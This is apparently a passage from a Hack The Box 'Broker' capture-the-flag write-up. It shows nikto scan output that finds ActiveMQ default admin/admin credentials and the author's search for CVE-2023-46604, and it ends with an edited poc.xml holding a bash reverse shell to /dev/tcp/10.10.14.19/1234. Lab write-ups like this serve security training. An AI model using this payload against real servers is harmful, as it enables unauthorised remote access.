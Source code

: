 ```bash
:: Progress: [220560/220560] :: Job [1/1] :: 1145 req/sec :: Duration: [0:03:55] :: Errors: 0 :
```

---

**nikto** picking up a directory which is there:

```bash
m0j0@r1s1n: ~/HTB/writeups/broker m0j0_development ⚡
$ nikto -h http://10.10.11.243                                                                                                             [20:22:31]
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.11.243
+ Target Hostname:    10.10.11.243
+ Target Port:        80
+ Start Time:         2023-12-17 20:22:53 (GMT0)
---------------------------------------------------------------------------
+ Server: nginx/1.18.0 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Default account found for 'ActiveMQRealm' at /images (ID 'admin', PW 'admin'). Generic account discovered..
+ Uncommon header 'x-frame-options' found, with contents: SAMEORIGIN
+ Uncommon header 'x-xss-protection' found, with contents: 1; mode=block
+ Uncommon header 'x-content-type-options' found, with contents: nosniff
+ Cookie JSESSIONID created without the httponly flag
+ OSVDB-3092: /admin/: This might be interesting...
+ /admin/login.html: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2023-12-17 20:25:36 (GMT0) (163 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

One solution or reason this can happen for me anyway is I don’t have the domain in my `etc/hosts`file. 

Gobuster/ffuf both can like an domain name to resolve too. I have stumbled on a possible domain in my nmap scan - `ActiveMQRealm` it’s just not got `htb` on the end. 

I like to find the FQDN during my enumeration stage on the site and I haven’t so I will move on with what I have got so far.

I have a service it’s version and Google.  This instantly throws up recent CVE’s some wrote in Golang and some in Python.  I tried the Golang CVE but got presented with an error I can’t resolve so took a look at the Python CVE found [here](https://github.com/evkl1d/CVE-2023-46604).  I had to edit this file to make it work. Here I edit the `poc.xml`file by adding my IP address to the reverse shell code.

```xml
<constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.14.19/1234 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
```
